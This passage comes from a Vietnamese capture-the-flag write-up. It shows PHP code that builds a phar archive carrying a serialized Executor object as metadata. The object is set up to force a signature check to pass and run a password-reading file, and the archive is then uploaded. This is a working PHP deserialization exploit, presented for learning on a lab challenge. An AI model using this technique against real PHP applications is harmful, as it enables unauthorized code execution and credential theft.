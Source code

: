    ![](https://i.imgur.com/i5SKHV9.png)

- Tiếp đó thực hiện tạo ra một tập tin có tên là `test.phar` với một tệp tin bên trong có tên `test.txt`. Và đặt dữ liệu metadata vào `phar` tức là giá trị serialized object `Executor`.

    ```
    <?php
	class Executor {
	    private $filename = "lv33_readpass.php"; 
        private $signature = True;
        private $init = false;
	}

	$phar = new Phar("test.phar");
	$phar->startBuffering();
	$phar->addFromString("test.txt", 'test');
	$phar->setStub("<?php __HALT_COMPILER(); ?>");
	$o = new Executor();
	$phar->setMetadata($o);
	$phar->stopBuffering();
    ?>
    ```
    
    - `Phar::startBuffering()` bắt đầu bộ đệm cho phar
    - `Phar::addFromString()` thêm nội dung của tệp tin "test.txt" vào phar với nội dung là "test".
    - `Phar::setStub()` đặt stub (tiền đề) cho phar. Trong trường hợp này, stub được sử dụng là `<?php__HALT_COMPILER(); ?>` để đảm bảo rằng phar sẽ không chạy bất kỳ mã PHP nào sau đó khi nó được thực thi.
    - `Phar::setMetadata()` đặt dữ liệu metadata vào phar. 
    - `Phar::stopBuffering()` dừng bộ đệm cho phar

Object này có giá trị thuộc tính `filename=lv33_readpass.php`, `signature=True`. Điều này giúp cho việc kiểm tra cơ chế signature luôn đúng. Giúp dễ ta thực hiện file `lv33_readpass.php`.
- Thực thi đoạn code trên để tạo file và upload file đó lên hệ thống với tên là `test.phar` .

    ![](https://i.imgur.com/ksc7QII.png)

